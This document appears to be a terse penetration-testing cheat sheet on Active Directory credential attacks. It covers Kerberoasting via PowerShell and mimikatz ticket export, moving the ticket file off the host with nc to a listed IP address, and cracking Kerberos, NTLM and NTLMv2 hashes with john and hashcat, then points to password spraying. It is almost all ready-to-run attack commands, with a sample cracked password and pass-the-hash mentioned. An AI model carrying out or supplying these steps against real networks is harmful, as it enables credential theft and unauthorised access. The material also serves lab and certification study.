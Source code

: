### Password DUMP USING SPNs    [AD]

>	PS C:\Users\nathan\Desktop> .\GetUserSPNs.ps1
>	Add-Type -AssemblyName System.IdentityModel
>   PS> New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList "FRIENDS-DC/svc_backups.FRIENDS.local:1337"
>   klist
-   C:> mimikatz.exe
>   # kerberos::list /export  
-   c:\Users\temp>dir /x
-   c:\Users\temp>nc.exe 192.168.119.195 80 < 1-40A1~1.KIR
>   __# kirbi2john svc_backup.kirbi > hash

-   └─# hashcat -m 13100 sql_kirbi_2_hash /opt/rockyou.txt
>   __# john hash --wordlist=/opt/rockyou.txt
>   __# hashcat hash /opt/rockyou.txt

>   [svc_backup:Password9]
>   [8c802621d2e36fc074345dded890f3e5]  `[Now we have either password or hash, let's go for login or PTH]`


##  Password Cracking

>   NTLM HASH `[-m 1000]`

-   hashcat -a 0 -m 1000 'aaaaaaaabsdf345dfgfg34fdfgghh' /opt/rockyou.txt
-   hashcat -a 0 -m 1000 'aaaaaaaabsdf345dfgfg34fdfgghh' -r OneRuleToRuleThemAll.rule /opt/rockyou.txt

-   john hash.txt --format=nt --wordlist=/opt/rockyou.txt

``` hash.txt
8c802621d2e36fc074345dded890f3e5
abcdre2234345trewquiopdssdfoldfg
abcdre2234345trewquiopdssdfoldfg
```
>   NTLMv2 HASH

```password.txt
SVC_Mycv::WIN-6821:4141414141414141:e60214562321adssfsf5sf5sfd:dsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfddsfsdcoo12323fsdfd23423bvfd
```
-   john --format=netntlmv2 password.txt --wordlist=/opt/rockyou.txt
-   hashcat -m 5600 password.txt /opt/rockyou.txt --force

##  Password Reuse / Password Spraying [RDP,SMB,LDAP,FTP,SSH,WEB]

[+] crackmapexec

[+] hydra
